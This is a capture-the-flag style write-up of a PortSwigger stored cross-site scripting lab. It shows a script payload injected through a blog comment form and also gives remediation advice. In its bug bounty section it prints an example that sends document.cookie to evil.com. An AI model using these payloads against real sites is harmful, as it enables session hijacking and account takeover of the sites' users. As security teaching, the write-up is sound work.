




# 🎯 Stored Cross-Site Scripting: HTML Context (Nothing Encoded)

**Write-Up by Aditya Bhatt | Stored XSS | HTML Injection | BurpSuite**

This PortSwigger lab contains a **stored XSS vulnerability** inside the blog’s **comment functionality**.
Since **nothing is encoded or sanitized**, any JavaScript inside the comment body gets stored on the server and executed whenever any user views the blog post.

We’ll craft a payload, store it via the comment form, return to the main blog page, and watch the JavaScript execute.

[Lab Link](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) <br/>



---

# 🧪 TL;DR

* Comment fields reflect input **directly in HTML context**
* No filtering / sanitization / encoding
* Payload gets stored + executed on page load
* Final payload:

```
<script>alert(1)</script>
```

* Submit comment → Go back to blog → **Alert fires** → Lab Solved 🎉

---

# 🌐 Brief Intro

Stored XSS is the **most dangerous** form of cross-site scripting because the payload is **permanently stored** on the server.
Anyone who visits the page later becomes a victim — no interaction needed.

In this lab, the comment text is placed straight into HTML without sanitization:

Browser thinks:
“Oh look, a `<script>` tag — time to run JavaScript.”
Boom — XSS.

---

# 🧬 Step-By-Step PoC (Screenshots Included)

## **1. Open the Lab**

We start by accessing the lab to observe how comments are submitted and displayed.



➤ **Why?**
To identify the user-controlled input point — the comment box.

---

## **2. Open any blog post → Scroll to the Comment Section → Submit Payload**

Inside the comment field, place:

```
<script>alert(1)</script>
```

Fill in name, email, website and hit **Post Comment**.



➤ **Why?**
This payload injects a `<script>` tag that gets stored in the database.
Whenever the blog post or blog homepage loads your comment, the browser **executes alert(1)**.

---

## **3. Click “Back to Blog” (Viewing the Stored Comment)**

Before claiming victory, let’s first see how the stored payload appears on the main blog page.


➤ **Why?**
Stored XSS runs when the page containing the malicious stored input is **viewed**, not when it is submitted.

---

## **4. Success — the alert pops! Lab Solved 🎉**

The moment you load the blog homepage, the browser renders the stored comment and executes the `<script>`.



➤ **Why?**
This proves the application displays user-input **without any encoding**, allowing attacker-supplied JavaScript to run every time the page loads.

---

# 🧠 What We Did & Why (Quick Recap)

* Identified the **comment section** → user-controlled HTML context.
* Injected classic JavaScript in a `<script>` tag.
* Application stored it **as-is**.
* When the blog was viewed, browser executed the JavaScript.
* This is the core idea of **Stored XSS**.

---

# 🛡 Stored XSS in Real-World Bug Bounties (Important!)

Stored XSS is a **high-severity bounty**, often getting rewards from **$250 – $3000+**, because:

### ✔ It persists on the server

Every visitor is affected — admins, users, customers.

### ✔ Perfect for Session Hijacking

Attackers can steal cookies using something like:

```
<script>fetch('https://evil.com/?c=' + document.cookie)</script>
```

### ✔ Perfect for Admin Takeover

Admin panels are usually vulnerable because comments/forums/logs are rendered with elevated privileges.

### ✔ Perfect for Full Account Takeover

You can steal tokens, force actions, or inject malicious scripts that run automatically for victims.

---

# ❗ How Stored XSS Happens

Stored XSS occurs when the server:

* **Accepts user input**
* **Saves it** (DB / log / comment / profile field)
* **Outputs it directly into HTML**
* **Without any encoding or sanitization**

Thus, HTML becomes executable JavaScript.

---

# 🛠 How to Fix Stored XSS

### ✔ Output Encoding

Encode `<` `>` `"` `'` so they display as text, not code.

Example:
`<script>` → `&lt;script&gt;`

### ✔ Input Validation

Block tags like `<script>`, ``, `<svg>`, event handlers, etc.

### ✔ Content Security Policy (CSP)

Deny inline scripts. Force trusted external JS.

### ✔ Use Framework Escaping

React, Angular, Django templates, etc., encode by default.

---

# 🔥 Final Thoughts

This lab shows why stored XSS is one of the **most impactful vulnerabilities** in bug bounties and VAPT.
If user input is saved and later rendered in HTML without encoding, the attacker fully controls what every visitor sees and executes.

Stored XSS = Persistent, powerful, and extremely dangerous.

Stay vigilant. Stay offensive. <br/>
— **Aditya Bhatt** 🔥

---
